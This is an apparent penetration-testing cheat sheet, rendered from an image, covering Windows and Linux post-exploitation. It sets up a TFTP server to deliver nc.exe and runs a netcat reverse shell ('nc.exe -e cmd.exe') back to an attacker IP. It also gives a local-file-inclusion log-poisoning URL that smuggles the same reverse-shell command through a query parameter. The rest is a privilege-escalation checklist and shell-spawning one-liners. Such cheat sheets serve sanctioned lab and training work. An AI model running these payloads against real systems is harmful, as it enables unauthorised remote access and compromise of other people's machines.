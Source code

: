#### Set up TFTP

```bash
# In Kali
atftpd --daemon --port 69 /tftp

# In reverse Windows
tftp -i 10.11.1.111 GET nc.exe
nc.exe -e cmd.exe 10.11.1.111 4444

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444
```

### Linux

Now we start the whole enumeration-process over gain.

* Kernel exploits
* Programs running as root
* Installed software
* Weak/reused/plaintext passwords
* Inside service
* Suid misconfiguration
* World writable scripts invoked by root
* Unmounted filesystems
* Look in /var/backups
* Look in /etc/fstab y en mount

Less likely

* Private ssh keys
* Bad path configuration
* Cronjobs

#### Useful commands

```bash
# Spawning shell
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
V
Ctrl+Z
stty raw -echo
fg
reset
Ctrl+Z
stty size
stty -rows 48 -columns 120
fg

echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within vi)
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```